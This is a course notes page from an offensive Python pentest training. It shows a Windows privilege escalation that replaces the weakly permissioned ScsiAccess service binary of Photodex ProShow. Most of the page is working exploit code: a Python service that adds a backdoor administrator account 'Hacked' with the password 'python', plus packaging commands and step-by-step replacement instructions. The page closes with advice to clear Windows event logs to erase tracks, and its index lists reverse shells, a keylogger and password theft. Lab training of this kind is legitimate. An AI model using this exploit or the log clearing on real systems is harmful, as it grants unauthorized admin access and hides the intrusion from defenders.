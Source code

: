 ```yaml
---
title: Privilege escalation - Weak service file permission 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - windows privilege escalation
  - privilege escalation
---
```


# Privilege escalation - Weak service file permission 

From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall.md).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).


## Setting up the lab

**1.** Download vulnerable application from https://www.exploit-db.com/exploits/24872 and install it for all users on a windows VM.

**2.** Create a non admin account in the Windows VM. For instance:
- user: nonadmin
- password: 123123

**3.** Restart the windows VM and login as nonadmin user.

**4.** Open the PhotoDex application and in Task Manager locate the service that gets created by the application. It's called ScsiAccess.ç

**5.** Open properties of ScsiAccess service and locate the path to executable. It should be something like:

```
C:\Program Files\Photodex\ProShow PRoducer\ScsiAccess.exe
```

**6.** We can replace that file with a malicious service file that will be triggered when opening the Photodex application and get us escalated to admin privileges.

**7.** Script for windows 7 app. Go to step 8 for windows 10. Jump to step 9 after this step.

```python
# Windows 7
import servicemanager
import win32serviceutil
import win32service
import win32api

import os
import ctypes

class Service(win32serviceutil.ServiceFramework):
    _svc_name_ = 'ScsiAccess'
    _svc_display_name_ = 'ScsiAccess'

    def __init__(self, *args):
        win32serviceutil.ServiceFramework.__init__(self, *args)

    def sleep(self, sec):
        win32api.Sleep(sec*1000, True)

    def SvcDoRun(self):

        self.ReportServiceStatus(win32service.SERVICE_START_PENDING)
        try:
            self.ReportServiceStatus(win32service.SERVICE_RUNNING)
            self.start()

        except:
            self.SvcStop()
    def SvcStop(self):
        self.ReportServiceStatus(win32service.SERVICE_STOP_PENDING)
        self.stop()
        self.ReportServiceStatus(win32service.SERVICE_STOPPEED)

    def start(self):
        self.runflag=True
        
        f = open('C:/Users/nonadmin/Desktop/priv.txt', 'w')
        if ctypes.windll.shell32.IsUserAnAdmin() == 0:
            f.write('[-] We are NOT admin')
        else:
            f.write('[+] We are admin')
        f.close()
        
    def stop(self):
        self.runflag=False

if __name__ == '__main__':


    servicemanager.Initialize()
    servicemanager.PrepareToHostSingle(Service)
    servicemanager.StartServiceCtrlDispatcher()
    win32serviceutil.HandleCommandLine(Service)


```

We can use py2exe to craft an exe file for that python script:

This setup file will convert the python script scsiaccess.py into an exe file:

```python
from distutils.core import setup
import py2exe, sys, os

sys.arg.append("py2exe")
setup(
	  options = {'py2exe': {'bundle_files': 1}},
	  windows = [ {'script': "scsiaccess.py"}],
	  zipfule = None
)
```

You can also use [pyinstaller](../pyinstaller.md):

```bash
Pyinstaller --onfile Create_New_Admin_account.py
```

**8.** Script for Windows 10:

```python
# The order of importing libraries matter. "servicemanager" should be imported after win32X. As following:-

import win32serviceutil
import win32service
import win32api
import win32timezone
import win32net
import win32netcon
import servicemanager

## the rest of the code is still the same
import os
import ctypes

class Service(win32serviceutil.ServiceFramework):
    _svc_name_ = 'ScsiAccess'
    _svc_display_name_ = 'ScsiAccess'

    def __init__(self, *args):
        win32serviceutil.ServiceFramework.__init__(self, *args)

    def sleep(self, sec):
        win32api.Sleep(sec*1000, True)

    def SvcDoRun(self):

        self.ReportServiceStatus(win32service.SERVICE_START_PENDING)
        try:
            self.ReportServiceStatus(win32service.SERVICE_RUNNING)
            self.start()

        except:
            self.SvcStop()
    def SvcStop(self):
        self.ReportServiceStatus(win32service.SERVICE_STOP_PENDING)
        self.stop()
        self.ReportServiceStatus(win32service.SERVICE_STOPPEED)

    def start(self):
        self.runflag=True
        
		USER = "Hacked"
		GROUP = "Administrators"
		user_info = dict (
			name = USER,
			password = "python",
			priv = win32netcon.USER_PRIV_USER,
			home_dir = None,
			comment = None,
			flags = win32netcon.UF_SCRIPT,
			script_path = None
			 )
		user_group_info = dict (
			domainandname = USER
			)
		try:
			win32net.NetUserAdd (None, 1, user_info)
			win32net.NetLocalGroupAddMembers (None, GROUP, 3, [user_group_info])
		except Exception, x:
			pass
		'''	
        f = open('C:/Users/nonadmin/Desktop/priv.txt', 'w')
        if ctypes.windll.shell32.IsUserAnAdmin() == 0:
            f.write('[-] We are NOT admin')
        else:
            f.write('[+] We are admin')
        f.close()
        '''
    def stop(self):
        self.runflag=False

if __name__ == '__main__':


    servicemanager.Initialize()
    servicemanager.PrepareToHostSingle(Service)
    servicemanager.StartServiceCtrlDispatcher()
    win32serviceutil.HandleCommandLine(Service)

```


To export into EXE use:

```
Pyinstaller --onfile Create_New_Admin_account.py`
```

**9.** Replace the service file, under

```
C:\Program Files (x86)\Photodex\ProShow Producer`
```


**10.** Rename the original scsiaccess to scsiaccess123.

**11.** Put your Python exe as scsiaccess  (without .exe).

**12.** Restart and test- You should see "Hacked" account been created.


### Python script to check if we are admin users on Windows

```python
import ctypes
	if ctypes.windll.shell32.IsUserAnAdmin() == 0:
		print '[-] We are NOT admin! '
	else:
		print '[+] We are admin :) '
```


## Erasing tracks

Once you are admin, open Event Viewer and go to Windows Logs. Click right button on Applications and Security and the option "Clear Logs".
